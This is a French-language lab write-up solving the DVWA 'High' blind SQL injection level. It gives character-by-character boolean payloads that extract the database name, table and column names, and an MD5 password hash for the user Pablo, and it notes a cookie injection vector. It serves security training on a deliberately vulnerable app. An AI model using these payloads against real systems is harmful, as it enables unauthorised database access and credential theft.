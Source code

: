 # Niveau "High"

Un changement est effectué au niveau de l’interface pour ce niveau « High ». Une pop-up est disponible pour insérer l’objet de la recherche et le résultat s’affiche sur la fenêtre principale :

![](../../../../.gitbook/assets/ddfc80eb30046f1b91071886f7f82007.png)

Il me faut donc maintenant découvrir si le champ est vulnérable à une injection de type SQL. Bien sur, il s’agira ici d'une injection à l’aveugle car l’application ne peut retourner que vrai/faux. De plus, l'injection sera de type String comme pour le niveau "Low" :

![](../../../../.gitbook/assets/731669385a1dff534be839076604ce71.png)

![](../../../../.gitbook/assets/30d4692cec561529a15965976df413a4.png)

Je commence donc par récupérer le nom de la base de données :

![](<../../../../.gitbook/assets/bd4c85ececd02d004ae427df857b622d (1).png>)

Soit (le premier apostrophe est présent juste pour la coloration syntaxique) :

```sql
'1' AND ORD(MID(DATABASE(),1,1)) = 100 --  // d
'1' AND ORD(MID(DATABASE(),2,1)) = 118 --  // v
'1' AND ORD(MID(DATABASE(),3,1)) = 119 --  // w
'1' AND ORD(MID(DATABASE(),4,1)) = 97 --   // a
```

Puis les noms des tables existantes :

```sql
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),1,1)) = 103 --  // g 
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),2,1)) = 117 --  // u
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),4,1)) = 115 --  // s
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),5,1)) = 116 --  // t
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),6,1)) = 98 --   // b
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),7,1)) = 111 --  // o
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),8,1)) = 111 --  // o
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),9,1)) = 107 --  // k
```

```sql
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,2),1,1)) = 117 --  // u 
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,2),2,1)) = 115 --  // s
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,2),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,2),4,1)) = 114 --  // r
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x64767761 LIMIT 1,2),5,1)) = 115 --  // s
```

Ensuite les noms des colonnes : `user` et `password` de la table `users` :

```sql
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),1,1)) = 117 --  // u 
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),2,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),4,1)) = 114 --  // r
```

```sql
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),1,1)) = 112 --  // p 
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),2,1)) = 97 --   // a
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),3,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),4,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),5,1)) = 119 --  // w
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),6,1)) = 111 --  // o
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),7,1)) = 114 --  // r
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),8,1)) = 100 --  // d
```

Puis finalement l'empreinte MD5 du mot de passe de Pablo :

```sql
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),1,1)) = 48 --   // 0 
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),2,1)) = 100 --  // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),3,1)) = 49 --   // 1
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),4,1)) = 48 --   // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),5,1)) = 55 --   // 7
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),6,1)) = 100 --  // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),7,1)) = 48 --   // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),8,1)) = 57 --   // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),9,1)) = 102 --  // f
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),10,1)) = 53 --  // 5
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),11,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),12,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),13,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),14,1)) = 52 --  // 4
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),15,1)) = 48 --  // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),16,1)) = 99 --  // c
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),17,1)) = 97 --  // a
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),18,1)) = 100 -- // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),19,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),20,1)) = 51 --  // 3
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),21,1)) = 100 -- // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),22,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),23,1)) = 53 --  // 5
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),24,1)) = 99 --  // c
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),25,1)) = 55 --  // 7
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),26,1)) = 49 --  // 1
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),27,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),28,1)) = 57 --  // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),29,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),30,1)) = 57 --  // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),31,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),32,1)) = 55 --  // 7
```

Soit :

![](../../../../.gitbook/assets/6d75b9397dbe0c57747a75e7b2a5485c.png)

{% hint style="info" %}
Dans ce niveau "High", un cookie est créé pour chacune des requêtes effectuées avec comme valeur l'entrée renseignée par l'utilisateur. Il est donc également possible d'attaquer l'application par ce vecteur.
{% endhint %}

